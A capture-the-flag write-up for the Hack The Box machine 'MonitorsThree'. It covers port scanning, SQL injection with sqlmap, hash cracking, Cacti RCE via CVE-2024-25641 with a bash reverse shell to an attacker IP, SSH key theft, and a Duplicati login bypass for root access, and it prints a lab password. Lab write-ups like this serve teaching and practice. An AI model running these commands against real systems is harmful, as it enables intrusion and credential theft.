


B3rt1ng
[HTB](https://app.hackthebox.com/profile/361363) | [Github](https://github.com/b3rt1ng)

<h1 style="text-align: center;">MonitorsThree Writeup</h1> 


## Reconnaissance
To begin with, we will perform a classic Nmap port scan to get in touch with the present services running on our target.

```bash
nmap -sC -sV 10.10.11.30 -oN scan.txt -Pn
```


We'll keep in mind that we have an ssh running on our machine. 
I spent some time to find some known vulnerabilities on port 5555 and 8084 but this isn't giving us a lot of exploitation opportunity.
Port 80 in the other hand is interesting. To access the website we need to add the DNS to our known hosts.

```bash
sudo nano /etc/hosts
```


Once on the website we can see a login page and a forgotten password page. Before trying anything we will try to discover more places !

We will use dirsearch to find more places and we do find some js, fonts, images and admin page though this one is not accessible.

```bash
dirsearch -u http://monitorsthree.htb/
```

Lastly, we will try to find more places on the webserver by crawling for subdns using this time ffuf.

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://monitorsthree.htb/ -H "Host: FUZZ.monitorsthree.htb" -fs 13560

#fs 13560 argument is meant to pass all the result of size 13560, those appeared to be false positives.
```


We find a sub dns called cacti, after some research it seems like this app is meant to monitor systems and get graphical insights about them.
We add the subdns "cacti.monitorsthree.htb" to our known hosts and happily go towards this domain.
Interesting, we have an admin pannel and luckily enough, we also have the version of the software running:


## Exploiting

After a bit of research, it seems like this version is vulnerable and it's vulnerability is known under "CVE-2024-25641". Some POC are available on github allowing us to make Remote Code Executions and therefore get a reverse shell on the machine.
At that point I need to find a user and a password for the RCE to work.
The forgot password page seems to be vulnerable to SQLI. 

I will use burp to capture a request to that page in hope to gather data from the sql database.
here's the request I will use:


Now let's play with SQLMap

```bash
sqlmap -r request.txt --dbs --batch
```


Then let's try to dump this database.

```bash
sqlmap -r request.txt --dbms=mysql --technique=B -D monitorsthree_db --dump-all --random-agent -level 5
```
That way we get four hashed password that we will try to crack with hashcat (1/4 hash are actually crackable), and some credetnials (an admin credential mostly)

```bash
hashcat -m 0 -a 0 "31a181c8372e3afc59dab863430610e8" /usr/share/wordlists/rockyou.txt --show
```
And we get a password.

Let's try that password with the username "admin"

And we are now logged in !


Now that we have a loggin and password let's try our CVE. I've been using metasploit's implementation of this CVE (under exploit/multi/http/cacti_package_import_rce) but found a more maleable implementation by [@StopThatTalace](https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26).

So let's prepare a listener:
```bash
nc -lnvp 4242
```
And send a reverse shell:
```bash
python3 CVE-2024-25641.py http://cacti.monitorsthree.htb/cacti/ --user admin --pass greencacti2001 -x "bash -c 'bash -i >& /dev/tcp/10.10.16.27/4242 0>&1'"
```
And bingo, we are in !

Since we are only under the user www-data, let's try to move to a normal user. Let's list the homes directories:

When we try to ssh to marcus, we need a public key:

To get that private key, we will swithc from our reverse shell to marcus using the password we gathered and then spawn a web server from marcus's home directory to get his id_rsa file.
now from marcu's account:
```bash
cd /home/marcus/.ssh
python3 -m http.server
```
From our machine:
```bash
wget http://10.10.11.30:8000/id_rsa
```


We now have the user flag !
## privilege escalation
Now let's try to escalate our privileges to root, we will need to investigate our machine.
Sudo -l isn't giving any hints, let's use linpeas to get some useful information.

We already know  80,22 and 53 (tcp/udp DNS server) but now we want to investigate the other ports. Let's try to see if any web-app is running on one of those.
We will make ssh tunneling and try to access it on our browser.

And on our browser we have an app called "duplicati"

After some research we find [this article](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) that explain how to bypass this duplicati login page.

To summarize it a little bit, the bypass relies on two main information:
- We already have access to the machine with marcus so we can access the database settings.
- using Burp Suite we can understand how the authentication is working.
  
I will not spend too much time into explaining how I gathered those information as it would be a copy/paste of the article so I will fast forward to the bypass execution.

After converting the database password.

Gathered the session nonce through burp

Generated the password.

And replaces the password field in but by our generated password, we have access to the app !

The advantage of using this app is that it runs with the roots privilege, now we can manipulate the apps to access files with root privilege and hopefully get the root flag (/root/root.txt on HTB machines).

After reading the [duplicati doc](https://docs.duplicati.com/en/latest/), we can see that it's meant to save files in order to do backups. So let's try to get that root flag.

Let's create a backup file of our root flag to marcus's home.
Our destination will be /source/home/marcus

And our source will be:


Now let's run the backup:

Once the backup it's done, we will restore it.

And now let's have a look at our home folder:

Wonderful, we have the root flag.